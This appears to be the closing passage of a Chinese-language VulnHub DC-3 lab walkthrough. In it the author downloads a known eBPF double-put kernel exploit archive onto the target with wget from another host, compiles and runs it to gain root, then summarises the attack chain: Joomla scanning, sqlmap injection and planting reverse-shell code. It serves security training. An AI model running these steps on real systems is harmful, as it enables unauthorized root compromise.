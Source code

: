 ```shell
#全是在靶机内执行的
cd /tmp
wget http://192.168.10.2:8888/39772.zip

unzip 39772.zip
cd 39772	#解压后的目录
tar -xvf exploit.tar	#解压后目录中的tar包再解压

cd ebpf_mapfd_doubleput_exploit		#tar解压后的目录

#下面按照文本中给出的提示进行操作即可
bash compile.sh
chmod +x doubleput
./doubleput
```

![](D:\stu\vulnhub\DC靶场\pic-3\24.jpg)

查看`flag`

![](D:\stu\vulnhub\DC靶场\pic-3\25.jpg)



# 总结

该靶场考察以下几点

1. 对于网站CMS的了解，这里是考察`joomla`的了解，以及对于工具`joomscan`来确定其版本，当然这里使用该工具也是可以获取到漏洞信息的
2. 使用`searchsploit`搜索CMS对于版本的历史漏洞，进行复现即可
3. 对于`sqlmap`该工具的基本使用
4. 了解`joomla`默认的一些路径，以及哪些地方可以修改并附上反弹`shell`代码
5. 对于一台机器的系统相关信息的收集，这个也是决定了能否在无特权文件的情况下，尝试进行内核方面的提权
































